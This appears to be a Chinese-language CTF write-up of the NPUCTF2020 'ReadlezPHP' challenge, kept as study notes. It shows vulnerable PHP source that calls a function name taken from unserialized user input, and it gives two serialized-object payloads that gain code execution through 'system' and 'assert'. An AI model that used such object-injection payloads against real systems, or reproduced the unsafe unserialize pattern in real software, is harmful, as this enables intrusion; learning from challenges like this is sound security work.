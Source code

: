 # [NPUCTF2020]ReadlezPHP（学习）
![](<./img/Pasted image 20221201150134.png>)

---
首页长这样

![](<./img/Pasted image 20221201150215.png>)

查看前端代码，尝试寻找注入

![](<./img/Pasted image 20221201150309.png>)

```php
/time.php?source
```

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

```

看样子是个简单的反序列化，尝试以下payload
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:2:"ls";s:1:"b";s:6:"system";}
```
![](<./img/Pasted image 20221201154452.png>)

并没有反应，看来是`system`被ban了

`eval`作为特殊形式，本身不是函数，所以不能使用

尝试用`file_get_contents`读出和构造匿名函数，结果都失败了QAQ，一是不知道`flag`在什么文件里，二是匿名函数不能序列化

看网上大佬用的`assert`才想起来还有这玩意

`flag`不知道在哪个文件里，答案是作为环境变量了，要通过`phpinfo()`获得
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

![](<./img/Pasted image 20221201170810.png>)

这个在本地机上咋也跑不起来QAQ，然后查文档发现是本地机`php`版本太高了

![](<./img/Pasted image 20221201165741.png>)

![](<./img/Pasted image 20221201165815.png>)
